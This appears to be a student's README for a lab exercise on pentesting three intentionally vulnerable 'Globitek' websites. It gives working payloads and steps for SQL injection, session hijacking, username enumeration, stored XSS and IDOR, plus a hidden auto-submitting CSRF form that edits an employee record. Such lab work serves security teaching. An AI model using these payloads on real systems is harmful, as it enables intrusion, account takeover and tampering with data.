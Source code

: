# Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

**Vulnerability #1:** SQL Injection (SQLi)
![Inject this code instead of ID of a salesperson](./1.png)
  ```
  %27%20OR%20SLEEP(5)=0--%27
  ```
* Website will halt for five seconds because of our code

**Vulnerability #2:** Session Hijacking/Fixation

* Get victim's session ID from the hacktool
![Session Hijacking 1](./2.png)
* Open up the website on your side and direct yourself to /index.php (Make sure intercept is on)
![Session Hijacking 2](./3.png)
![Session Hijacking 3](./4.png)
* Change Session ID value to one that we just stole
![Session Hijacking 4](./5.png)
* We are in
![Session Hijacking 5](./6.png)

## Green

**Vulnerability #1:** Username Enumeration

*I want to note that enumeration is not only way to tell if username exists. You can basically guess or use a username of the person from another website, as people try to get the same username on all the websites.*

* Try jmonroeX as your login, where X is a number from 0 to infinity. [I used pperson, because I had this username in my db]
* If username exists, the website will display it as **bold** text.
![Enumeration](./7.png)
![Enumeration](./8.png)

**Vulnerability #2:** Cross-Site Scripting (XSS)

- Send feedback with this code: `<script>alert('Daulet found the XSS!');</script>`
- As soon as admin opens Feedback page, the XSS will be executed.

![XSS](./9.png)

## Red

**Vulnerability #1:** Insecure Direct Object Reference

* Just change the ID of the salesperson until u find those that u were not supposed to
![IDOR1](./10.png)
![IDOR2](./11.png)
![IDOR3](./12.png)

**Vulnerability #2:** CSRF

* Create a malicious website with this code:
```
<html>
  <body onload="document.my_form.submit()">
    <form action="https://104.154.145.74/red/public/staff/salespeople/edit.php?id=1" method="POST" name="hackform" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Rick" />
      <input type="text" name="last_name" value="Astley" />
      <input type="text" name="phone" value="123-456-7890" />
      <input type="text" name="email" value="hackermail@protonmail.com" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```
* Supply this link via feedback to admins
* As soon as admin proceeds to the website, he will change the values of employee with ID=1
